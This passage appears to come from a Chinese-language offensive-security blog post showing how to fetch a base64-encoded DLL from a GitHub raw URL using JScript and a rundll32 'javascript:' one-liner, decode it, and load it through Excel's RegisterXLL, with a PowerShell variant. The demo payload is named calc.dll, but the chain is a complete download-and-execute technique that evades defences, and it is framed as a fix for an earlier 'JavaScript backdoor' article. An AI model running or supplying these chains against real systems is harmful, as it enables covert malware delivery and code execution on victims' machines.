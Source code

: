 读取二进制文件，不能使用命令Get-content

将buffer.txt上传至github

下载base64并保存文件对应的js代码如下：

```
h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calcbase64.txt",false);
h.Send();
fso1=new ActiveXObject("Scripting.FileSystemObject");
f=fso1.CreateTextFile("c:\\test\\1.txt",true);
f.WriteLine(h.ResponseText);
f.Close();
```

下载base64并保存文件对应rundll32的代码如下：

`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calcbase64.txt",false);h.Send();s=new%20ActiveXObject("Scripting.FileSystemObject");f=s.CreateTextFile("c:\\test\\1.txt",true);f.WriteLine(h.ResponseText);f.Close();`

文件保存成功，该文件存储base64加密后的calc.dll

base64解密该文件并加载dll对应的js代码如下：

```
x="c:\\test\\calc.dll";
h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calcbase64.txt",false);
h.Send();
var enc = new ActiveXObject("System.Text.ASCIIEncoding");
var length = enc.GetByteCount_2(h.ResponseText);
var ba = enc.GetBytes_4(h.ResponseText);
var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
ba = transform.TransformFinalBlock(ba, 0, length);
s=new ActiveXObject("ADODB.Stream");
s.Type=1;
s.Open();
s.Write(ba);	
s.SaveToFile(x,2);
new ActiveXObject("Excel.Application").RegisterXLL(x);
```

**注：**

以上两段代码结合，可应用在通过rundll32进行文件下载（先通过rundll32下载base64加密的文件，然后使用js脚本解密），可解决在之前的文章《JavaScript backdoor》给读者留下的小bug


base64解密该文件并加载dll对应的powershell代码如下：

```
$FilePath="C:\test\test1.dll"
$base64Buf = Get-content c:\test\1.txt
$fileContentBytes = [System.Convert]::FromBase64String($base64Buf) 
[System.IO.File]::WriteAllBytes($FilePath,$fileContentBytes)
$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application"))
$excel.RegisterXLL($FilePath)
```
